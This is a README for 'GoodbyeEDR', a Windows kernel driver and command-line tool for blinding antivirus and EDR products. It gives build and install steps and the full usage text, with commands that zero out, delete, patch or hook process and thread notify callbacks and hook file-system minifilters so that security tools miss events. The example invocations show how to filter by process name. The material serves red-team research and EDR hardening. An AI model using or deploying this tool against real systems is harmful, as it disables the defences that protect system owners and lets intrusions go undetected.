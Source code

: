 # GoodbyeEDR
███████████████████████████████████████████████████████
█────█────█────█────██────██──█──█───███───█────██────█
█─████─██─█─██─█─██──█─██──██───██─█████─███─██──█─██─█
█─█──█─██─█─██─█─██──█────████─███───███───█─██──█────█
█─██─█─██─█─██─█─██──█─██──███─███─█████─███─██──█─█─██
█────█────█────█────██────████─███───███───█────██─█─██
██████████████████████████████─████████████████████████

## Info
Disable & hook notifications of AV & EDR from events occurring in the system.

The project has the following features:
1. List 
    - callbacks,
    - minifilters.
3. Removing callback functions:
    - create/exit of processes,
    - create/exit of threads.
4. Hook callback functions with filtering by process name:
    - create/exit of processes,
    - create/exit of threads.
5. Hook file system minifilters.
6. Abuse AV & EDR after remove or hook.
    
The assembly is a compilation of two great projects:
1. https://github.com/uf0o/windows-ps-callbacks-experiments (Fork deleted repository https://github.com/fdiskyou/windows-ps-callbacks-experiments).
2. https://github.com/SHA-MRIZ/FsMinfilterHooking
    
Additionally, added the ability to hook callback functions with filtering by the name of the process: create/exit of processes and threads & hook of file system minifilters.

## Build
The project is built for Visual Studio 2019 with SDK & DDK v10.0.22000.0 for x64.

## Install

After built put all files together in one directory and place the same directory install.bat:
- `Dobro.sys` - driver
- `DobroCli.exe` - cli for control driver
- `Install.bat` - install

Run install.bat as administrator.

Start driver: `sc start dobro`

Stop driver: `sc start dobro`

## Usage

For control driver run DorbroCli.exe in cmd.exe

```
Usage: DobroCli.exe <options>
Options:
  -h                        Show this message.
  -l                        Process & Thread Notify Callbacks Address's & FS Minifilters List.
<Process Callbacks>
  -zp                       Zero out Process Notify Callback's Array (Cowboy Mode).
  -dp <index>               Delete Specific Process Notify Callback (Red Team Mode).
  -pp <index>               Patch Specific Process Notify Callback (Threat Actor Mode).
  -rp <index>               Rollback to the original Process Notify Callback (Thoughtful Ninja Mode).
<Threads Callbacks>
  -zt                       Zero out Thread Notify Callback's Array (Cowboy Mode).
  -dt <index>               Delete Specific Thread Notify Callback (Red Team Mode).
  -pt <index>               Patch Specific Thread Notify Callback (Threat Actor Mode).
  -rt <index>               Rollback to the original Thread Notify Callback (Thoughtful Ninja Mode).
<Hook Notify Callback>
  -hps <index> <filter>     Hook PS notify routine.
  -ups                      Unhook PS notify routine.
  -hthr <index> <filter>    Hook THR notify routine.
  -uthr                     Unhook THR notify routine.
<FS Minifilters>
  -hm <index>               Hook FS Minifilter.
  -um                       Unhook FS Minifilter.
<Check>
  -chk                      Try AV/EDR for fun ;-) (Inject PS, need admin).
<Driver Debug>
  -dbg_lm                   List modules in Driver DbgPrint.
  -dbg_bsod                 BS0D.
```

Get list callbacks process and thread notify routine + file system minifilters:

`DobroCli.exe -l`

Hook thread and process callback notify routine with filter by name process, no problem:

`DobroCli.exe -hthr 1 kxxx`

`DobroCli.exe -hps 7 kxxx`

Hook file system minifilters, no problem:

`DobroCli.exe -hm 1 kxxxxxx`

## Links
Articles covering these issues in detail:
1. http://deniable.org/windows/windows-callbacks ---> https://web.archive.org/web/20200326040826/http://deniable.org/windows/windows-callbacks
2. https://synzack.github.io/Blinding-EDR-On-Windows/
3. https://aviadshamriz.medium.com/part-1-fs-minifilter-hooking-7e743b042a9d     
